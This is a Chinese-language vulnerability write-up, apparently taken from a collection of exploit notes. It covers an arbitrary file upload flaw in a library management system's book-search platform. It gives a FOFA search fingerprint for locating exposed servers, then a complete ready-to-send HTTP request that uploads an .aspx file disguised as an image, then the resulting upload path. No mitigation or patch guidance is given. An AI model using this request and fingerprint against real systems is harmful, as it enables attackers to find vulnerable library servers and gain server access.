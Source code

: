 # 一、漏洞简介
河北兴图软件科技有限公司基于互联网+图书馆全新的理念自主研发了一系列网页版图书馆集群管理系统，正式推出基础版、标准版、增强版和专业版等版本，适合各类型图书馆需求。图书检索平台存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 图书检索平台

# 三、资产测绘
+ fofa`body="Images/public/yes.png"`
+ 特征

![](images/1724579424545-e9f8ab08-0234-45a8-b5a0-b39b77b1088d.png)

# 四、漏洞复现
```java
POST /Admin/Uploadify/UploadClientFile HTTP/1.1
Host: 
Content-Type: multipart/form-data; boundary=---------------------------289666258334735365651210512949
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:127.0) Gecko/20100101 Firefox/127.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Cookie: ASP.NET_SessionId=vkp4usonpxcstreczz05g113
Accept: */*
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Length: 35827

-----------------------------289666258334735365651210512949
Content-Disposition: form-data; name="file"; filename="1.aspx"
Content-Type: image/png

123
-----------------------------289666258334735365651210512949--
```

![](images/1724583582688-07bb0fcf-6c0a-45ef-956d-ef5d716fa1f4.png)

```java
/upload/bookfile/f9e503a1-5c4c-4d68-8b5d-a417f61bc1c2.aspx
```

![](images/1724583615094-461dda72-18fa-4c41-acc9-e42e1f49754a.png)

